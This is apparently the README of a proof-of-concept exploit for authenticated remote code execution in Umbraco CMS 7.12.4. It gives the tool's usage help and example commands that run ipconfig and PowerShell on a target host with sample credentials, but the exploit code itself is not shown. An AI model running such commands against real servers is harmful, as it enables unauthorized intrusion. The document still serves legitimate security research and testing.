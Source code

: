# Umbraco RCE exploit / PoC

> Umbraco CMS 7.12.4 - (Authenticated) Remote Code Execution

## Usage

```
$ python exploit.py -h
usage: exploit.py [-h] -u USER -p PASS -i URL -c CMD [-a ARGS]

Umbraco authenticated RCE

optional arguments:
  -h, --help                 show this help message and exit
  -u USER, --user USER       username / email
  -p PASS, --password PASS   password
  -i URL, --host URL         root URL
  -c CMD, --command CMD      command
  -a ARGS, --arguments ARGS  arguments
```

Examples:

```
$ python exploit.py -u admin@example.org -p password123 -i 'http://10.0.0.1' -c ipconfig
$ python exploit.py -u admin@example.org -p password123 -i 'http://10.0.0.1' -c powershell.exe -a '-NoProfile -Command ls'
```

## Requirements

- [Beautiful Soup](https://www.crummy.com/software/BeautifulSoup/index.html)
- [Requests](https://requests.readthedocs.io/en/master/)

Example for ArchLinux:

```
pacman -S python-beautifulsoup4 python-requests
```

## Reference

This is a better re-write of [EDB-ID-46153](https://www.exploit-db.com/exploits/46153) using arguments (instead of harcoded values) and with stdout display.

Tested with python 3.8.
